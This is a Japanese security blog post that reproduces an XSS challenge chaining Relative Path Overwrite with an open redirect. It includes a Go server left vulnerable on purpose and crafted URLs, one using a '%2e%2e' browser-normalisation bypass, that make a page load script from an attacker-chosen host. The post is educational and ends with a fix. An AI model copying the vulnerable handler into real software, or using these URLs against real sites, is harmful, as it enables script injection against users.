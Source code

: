 +++
title = "RPOとOpenRedirectを用いたXSS"
date = "2021-07-20"
tags = [
    "security",
]
+++

RPOとは、Gareth Heyesが提唱した脆弱性です。(http://www.thespanner.co.uk/2014/03/21/rpo/)

この脆弱性の理解のため、今回はintigritiのXSS Challengeで出題された問題の再現を行います。
この問題の詳細は以下の動画で確認できます。

<iframe width="560" height="315" src="https://www.youtube.com/embed/0-sA_kAVw74" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
<br>
<br>

上記の動画では、`http://vulnerable-server//example.com/..`にアクセスを行い、相対パスで読み込んでいるリソースの起点を`http://vulnerable-server//example.com`とすることで、任意のスクリプトの実行を行なっています。

`http://vulnerable-server//example.com/..`へのアクセスは、サーバーの仕様により`http://vulnerable-server/`にアクセスした時と同じコンテンツが返却されます。

`http://vulnerable-server/`では、以下の様に相対パスでのスクリプトの読み込みを行なっているため、`http://vulnerable-server//example.com/script.js`からスクリプトが読み込まれます。

```html
<script src=script.js> </script> <!-- http://vulnerable-server//example.com/script.js-->
```

`http://vulnerable-server//example.com/script.js`へのアクセスは、リダイレクトの機能が動作するため、実際には`http://example.com/script.js`から読み込まれます。

攻撃者は`example.com`の部分を好きなドメインに書き換えてアクセスすることで、好きなドメインからスクリプトを読み込むことが可能になります。

#### 実装してみる

今回実装する脆弱なWebサーバーは、以下の機能を有しています。
- `//<ホスト名>`というようなアクセスでリダイレクトが可能
  - ex. `http://vulnerable-server//example.com`
- 正規化されたパスのコンテンツが返却される
  - ex. `http://example.com/first/..` => `http://example.com/`
- 相対パスでスクリプトの読み込みが行われている
  - ex. `<script src=script.js></script>`

Webサーバーの実装は以下の通りです。
```go
package main

import (
	"net/http"
	"log"
	"path"
	"fmt"
)

type VulnerableHandler map[string]http.Handler
func (v VulnerableHandler) ServeHTTP(w http.ResponseWriter,r *http.Request){
	// Serve HTTP
	p := path.Clean(r.URL.Path)
	if h, ok := v[p]; ok {
		log.Printf("serve: %s\n", p)
		h.ServeHTTP(w, r)
		return
	}

	// OpenRedirect
	if len(r.URL.Path) > 1 && r.URL.Path[0] == '/' && r.URL.Path[1] == '/' {
		redirectTo := fmt.Sprintf("https://%s", r.URL.Path[2:])
		w.Header().Set("Location", redirectTo)
		w.WriteHeader(302)
		log.Printf("redirect: %s\n", redirectTo)
		return
	}

	// return 404
	http.Error(w, "404", http.StatusNotFound)
}

func index(w http.ResponseWriter, r *http.Request) {
	w.Write([]byte(`
		<p>index page</p>
		<script src="script.js"></script>
	`))
}

func main() {
	mux := http.NewServeMux()
	mux.Handle("/", VulnerableHandler{
		"/": http.HandlerFunc(index),
	})

	handler := VulnerableHandler{
		"/": http.HandlerFunc(index),
	}
	http.ListenAndServe(":8000", handler)
}
```

GitHubのリンクはこちらです。(https://github.com/mute1997/relative-path-overwrite)

#### 再現

実装したサーバーを用いて、XSSを再現させます。

まずChromeで`http://localhost:8000//example.com/..`にアクセスしますが、ここで問題があります。

以下のスクリーンショットの様に、Chromeでは`http://localhost:8000//example.com/..`にアクセスした場合、ブラウザによって`http://localhost:8000`へのアクセスへ勝手に変更されてしまいます。

<img src=chrome.png>
<br>

この挙動は、FireFoxはSafariでも同様です。
これでは、相対パスの起点を`http://localhost:8000//example.com`にすることが出来ません。

しかし、FireFoxでは`http://localhost:8000//example.com/%2e%2e`と言う様なアクセスを行うことで、ブラウザの正規化を回避してアクセスが可能になります。

FireFoxで`http://localhost:8000//example.com/%2e%2e`にアクセスすることで、以下の様に`http://example.com/script.js`からファイルを読み込んでおり、攻撃が成功したことがわかります。

<img src=firefox.png>
<br>

#### まとめ

今回の例では、非常に限定的ではありますが、RPOとOpenRedirectを用いてXSSが可能であることを確認できました。
相対パスの読み込みを絶対パスに修正するだけで回避可能な脆弱性なため、リソースの読み込みは必要が無ければ絶対URLで行うのが良さそうです。
